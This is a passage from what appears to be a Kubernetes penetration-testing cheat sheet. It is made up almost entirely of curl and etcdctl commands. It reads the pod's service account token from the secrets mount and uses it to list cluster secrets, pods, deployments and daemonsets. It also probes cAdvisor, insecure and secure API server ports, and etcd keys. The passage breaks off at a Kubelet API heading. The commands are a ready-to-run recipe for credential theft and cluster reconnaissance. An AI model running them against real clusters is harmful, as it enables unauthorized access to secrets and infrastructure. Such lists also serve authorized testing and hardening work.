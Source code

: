 ```powershell
cat /run/secrets/kubernetes.io/serviceaccount/token
curl -k -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/
```

## Kubernetes Endpoints

```powershell
# List Pods
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/pods/

# List secrets
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/

# List deployments
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip:<port>/apis/extensions/v1beta1/namespaces/default/deployments

# List daemonsets
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip:<port>/apis/extensions/v1beta1/namespaces/default/daemonsets
```

### cAdvisor

```powershell
curl -k https://<IP Address>:4194
```

### Insecure API server

```powershell
curl -k https://<IP Address>:8080
```

### Secure API Server

```powershell
curl -k https://<IP Address>:(8|6)443/swaggerapi
curl -k https://<IP Address>:(8|6)443/healthz
curl -k https://<IP Address>:(8|6)443/api/v1
```

### etcd API

```powershell
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```

### Kubelet API
